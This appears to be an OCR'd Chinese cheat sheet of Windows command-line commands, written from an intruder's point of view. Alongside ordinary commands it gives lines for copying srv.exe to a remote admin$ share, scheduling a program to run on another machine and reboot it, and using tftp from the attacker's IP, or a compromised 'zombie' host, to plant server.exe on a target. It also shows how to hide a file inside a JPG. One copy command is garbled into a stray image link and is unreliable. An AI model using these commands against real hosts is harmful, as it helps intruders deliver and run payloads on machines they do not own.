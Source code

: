 at 查看所有的计划任务

at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username [@host ](/host) 查看最近有哪些用户登陆

telnet ip 端口 远和登陆服务器,默认端口为 23

open ip 连接到 IP（属 telnet 登陆后的命令）

telnet 在本机上直接键入 telnet 将进入本机的 telnet

copy 路径文件名 1 　路径文件名 2 /y 复制文件 1 到指定的目录为文件 2，用参数/y 就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地 c:srv.exe 到对方的 admin 下

copy 1st.jpg/b+2st.txt/a 3st.jpg 将 2st.txt 的内容藏身到 1st.jpg 中生成 3st.jpg 新的文件，注：2st.txt 文件头要空三排，参数：/b 指二进制文件，/a 指 ASCLL 格式文件

copy ipadmin![](https://g.yuque.com/gr/latex?svv.exe%20c%3A%20%E6%88%96%3Acopyipadmin#card=math&code=svv.exe%20c%3A%20%E6%88%96%3Acopyipadmin)_._ 复制对方 admini$共享下的 srv.exe 文件（所有文件）至本地 C：

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y 将不提示覆盖相同文件

用参数/e 才可连目录下的子目录一起复制到目标地址下。

tftp -i 自己 IP(用肉机作跳板时这用肉机 IP) get server.exe c:server.exe 登陆后，将“IP”的 server.exe 下载到目标主机 c:server.exe 参数：-i 指以二进制模式传送，如传送 exe 文件时用，如不加-i 则以 ASCII 模式（传送文本文件模式）进行传送

tftp -i 对方 IP 　 put c:server.exe 登陆后，上传本地 c:server.exe 至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为 21。bin 指用二进制方式传送（可执行文件进）；默认为 ASCII 格式传送(文本文件时)

route print 显示出 IP 路由，将主要显示网络地址 Network addres，子网掩码 Netmask，网关地址 Gateway addres，接口地址 Interface

arp 查看和处理 ARP 缓存，ARP 是名字解析的意思，负责把一个 IP 解析成一个物理性的 MAC 地址。arp -a 将显示出全部信息

start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

mem 查看 cpu 使用情况

attrib 文件名(目录名) 查看某文件（目录）的属性

attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

dir 查看文件，参数：/Q 显示文件及目录属系统哪个用户，/T:C 显示文件创建时间，/T:A 显示文件上次被访问时间，/T:W 上次被修改时间

date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

set 指定环境变量名称=要指派给变量的字符 设置环境变量

set 显示当前所有的环境变量

set p(或其它字符) 显示出当前以字符 p(或其它字符)开头的所有环境变量

pause 暂停批处理程序，并显示出：请按任意键继续....

if 在批处理程序中执行条件处理（更多说明见 if 命令及变量）

goto 标签 将 cmd.exe 导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见 call /?）

for 对一组文件中的每一个文件执行某个特定命令（更多说明见 for 命令及变量）
